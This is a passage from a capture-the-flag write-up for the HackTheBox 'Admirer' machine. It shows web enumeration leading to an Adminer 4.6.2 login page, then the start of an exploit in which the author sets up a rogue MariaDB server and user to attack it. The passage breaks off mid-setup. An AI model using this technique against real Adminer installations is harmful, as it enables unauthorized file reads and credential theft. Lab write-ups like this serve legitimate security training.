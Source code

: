 I tried both these creds to get into ssh or ftp but they did not work

After some more failed attempts I thought maybe these php files are pages on the website

## LOGIN

So admin_tasks.php , info.php and phptest.php are pages but db_admin.php is not

I tried to some things with the admin_tasks.php but nothing worked

Going back to the db_admin.php I notice ```better open source alternative``` 

On searching google for ```open souce alternative to db_admin``` I found this
```Adminer. Adminer is a single 186kB file (or 281kB if you want the multi-lingual version)```

Since the name of our machine is admirer I thought maybe this could be a hint

So I tried opening the page ```/utility-scripts/adminer.php``` and it worked

![](https://github.com/Leo-2807/Writeups/blob/main/images/admirer6.png)

Trying to login using the creds that we have does not work

## EXPLOIT

Searching for ```adminer 4.6.2 vulnerbilities``` I come across this [article](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool)

First we need to make a mysql data base on our server 

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/admirer]
└─$ sudo mysql -u root -p                    
[sudo] password for kali: 
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 38
Server version: 10.5.10-MariaDB-2 Debian 11

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> CREATE USER 'test'@'%' IDENTIFIED BY 'test';
Query OK, 0 rows affected (0.010 sec)

MariaDB [(none)]> GRANT ALL PRIVILEGES ON *.* TO 'test'@'%';
Query OK, 0 rows affected (0.005 sec)

MariaDB [(none)]> FLUSH PRIVILEGES;
Query OK, 0 rows affected (0.000 sec)

MariaDB [(none)]> create database admirer;
Query OK, 1 row affected (0.000 sec)

MariaDB [(none)]> use admirer;
Database changed
MariaDB [admirer]> create table demo(name varchar(255));
Query OK, 0 rows affected (0.026 sec)
